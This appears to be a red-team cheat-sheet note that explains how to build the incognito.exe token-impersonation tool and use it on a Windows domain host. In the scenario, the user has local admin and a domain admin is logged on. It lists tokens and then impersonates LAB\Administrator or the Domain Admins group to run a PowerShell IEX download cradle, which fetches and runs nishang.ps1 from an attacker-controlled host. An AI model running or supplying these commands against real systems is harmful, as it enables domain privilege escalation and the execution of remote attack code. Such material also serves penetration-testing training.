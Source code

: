 # Building the `incognito.exe` binary
1. clone the ingonitor repository [here](https://github.com/FSecureLABS/incognito)
2. make sure you have visual studio installed with the C++ compile workload installed
3. open a developer's command prompt from the start menu
4. go to the project folder
5. run the `nmake` command
6. you should get the `incognito.exe` binary as an output

# Scenario: you have local administrator on a machine. And a domain admin is logged on
1. list user tokens `incognito.exe list_tokens -u` or group tokens `incognito.exe list_tokens -g`
2. impersonate any of the available **user** tokens and run a PowerShell command
```shell
incognito.exe execute LAB\Administrator "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```
3. impersonate any of the available **group** tokens and run a PowerShell command
```shell
incognito.exe execute "LAB\Domain Admins" "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```